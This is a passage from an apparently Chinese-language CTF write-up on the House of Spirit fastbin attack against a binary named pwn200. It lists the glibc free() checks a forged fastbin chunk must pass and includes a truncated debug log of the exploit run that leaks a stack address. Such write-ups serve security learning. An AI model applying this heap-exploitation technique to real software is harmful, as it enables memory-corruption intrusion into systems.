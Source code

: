 要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

+ fake chunk 的 ISMMAP 位不能为1，因为 <font style="color:#F5222D;">free</font> 时，如果是 mmap 的 chunk，会单独处理。
+ fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
+ fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
+ fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
+ fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

至于为什么要绕过这些检测，可以参考 free 部分的源码。

首先来看第一条：fake chunk 的 ISMMAP 位不能为1

由于我们伪造的fake chunk的size为0x41，将其写成二进制的形式为1000001，再根据下面这张图就知道绕过了检测一。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1603775985689-f81bf21b-f178-47c1-bbc6-d2929891890e.png)

第二条：fake chunk 地址需要对齐， MALLOC_ALIGN_MASK。fake chunk的地址已经对齐，这里不再说。

第三条：已满足，不再说。

第四条：fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。

**<font style="color:#F5222D;">在32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8</font>**<font style="color:#F5222D;">。</font><font style="color:#000000;">next_chunk大小为</font><font style="color:#000000;">1f（</font>十进制：31），同时也小于system_mem。

第五条：fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。已满足。

### 思路总结
在这道题目中为什么要伪造fastbin_chunk?是因为所有的溢出均无法覆盖到有效的地址（return to shellcode），因此我们需要伪造一个fastibin_chunk回收到fastbin链中再释放从而控制更大范围的内存空间。在其中要注意伪造fake_fastbin_chunk的条件。

### Debug日志
```c
➜  House Of Spirit python exp.py 
[*] '/home/ubuntu/Desktop/fastbin_attack/House Of Spirit/pwn200'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[!] Could not find executable 'pwn200' in $PATH, using './pwn200' instead
[+] Starting local process './pwn200' argv=['pwn200'] : pid 18155
[DEBUG] Received 0xb bytes:
    'who are u?\n'
[DEBUG] Sent 0x30 bytes:
    'a' * 0x30
[DEBUG] Received 0x5e bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000030  80 fc e4 ce  fe 7f 2c 20  77 65 6c 63  6f 6d 65 20  │····│··, │welc│ome │
    00000040  74 6f 20 49  53 43 43 7e  20 0a 67 69  76 65 20 6d  │to I│SCC~│ ·gi│ve m│
    00000050  65 20 79 6f  75 72 20 69  64 20 7e 7e  3f 0a        │e yo│ur i│d ~~│?·│
    0000005e
[+] RBP register ===> 0x7ffecee4fc80
[DEBUG] Sent 0x3 bytes:
    '31\n'
[DEBUG] Received 0xf bytes:
    'give me money~\n'
[DEBUG] Sent 0x40 bytes:
```